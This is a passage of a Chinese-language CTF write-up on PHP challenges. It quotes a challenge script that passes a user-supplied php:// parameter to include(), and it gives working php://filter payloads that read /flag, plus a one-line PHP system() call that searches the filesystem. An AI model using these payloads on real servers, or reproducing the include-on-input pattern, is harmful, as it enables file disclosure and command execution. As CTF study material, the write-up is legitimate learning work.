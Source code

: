 然后则这样就可以了

补充一个语句：

```
<?php system("find / -name flag*");?> 
```

用这个找挺方便的

##### 读取源代码

题目：

```
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
    //highlight_file() 函数对文件进行 PHP 语法高亮显示。语法通过使用 HTML 标签进行高亮，会显示规定要显示的文件
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
i don't have shell, how to get flag? 
flag in /flag 
```

和上一题一样我感觉，但是并不好用

```
resource=<要过滤的数据流>	  	  指定了你要筛选过滤的数据流。	必选
read=<读链的筛选列表>			 可以设定一个或多个过滤器名称，以管道符（|）分隔。	可选
write=<写链的筛选列表>			 可以设定一个或多个过滤器名称，以管道符（|）分隔。	可选
<；两个链的筛选列表>			   任何没有以 read= 或 write= 作前缀的筛选器列表会视情况应用于读或写链。 
```

这里就不能将指令POST上去了，图中又提示了必须使用`php://`，FLAG在/flag内，因此想到过滤器filter

考虑到php伪协议里面的直接读取一个文件里面的内容的一个伪协议↓

```
?file=php://filter/read=convert.base64-encode/resource=/flag（有绝对路径的限制下只用）
?file=php://filter/resource=/flag 
```

也可以去掉 `read`绕过一些限制函数

success

考查知识点：php://filter过滤器
